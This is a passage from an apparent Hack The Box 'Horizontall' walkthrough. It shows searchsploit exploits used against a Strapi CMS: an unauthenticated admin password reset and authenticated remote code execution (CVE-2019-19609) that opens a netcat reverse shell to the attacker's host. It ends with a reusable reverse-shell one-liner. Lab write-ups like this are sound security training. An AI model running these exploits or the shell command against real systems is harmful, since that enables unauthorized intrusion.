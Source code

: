 Using searchsploit shows some potential exploits for this. 

![](/docs/images/horizontall/horizontall4.png)

The first exploit that was used was the 50237.py exploit (Set password). This was used to set the password to 'password'.

```
❯ python3 50237.py
[*] strapi version: 3.0.0-beta.17.4
[*] Password reset for user: admin@horizontall.htb
[*] Setting new password
[+] New password 'password' set for user admin@horizontall.htb 
```

Then the next exploit was the 50238.py exploit (RCE Authenticated). The JWT token was obtained by signing in and getting the token through BurpSuite. Then the exploit was used to create a reverse shell on the box.

```
❯ ./50238.py http://api-prod.horizontall.htb eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQxODM5OTA1LCJleHAiOjE2NDQ0MzE5MDV9.lDuFAv8wov8nWIiZup61QRbgPPtb-DoHCpT4Mrt_UQk "mkfifo /tmp/p; nc 10.10.14.99 3333 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p" 10.10.14.99

=====================================
CVE-2019-19609 - Strapi RCE
=====================================

[+] Successful operation!!!
Error: Couldn't setup listening socket (err=-3)
<html>
<head><title>504 Gateway Time-out</title></head>
<body bgcolor="white">
<center><h1>504 Gateway Time-out</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
</body>
</html>
```

My favourite one-liner nc reverse shell >>

```
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p
```
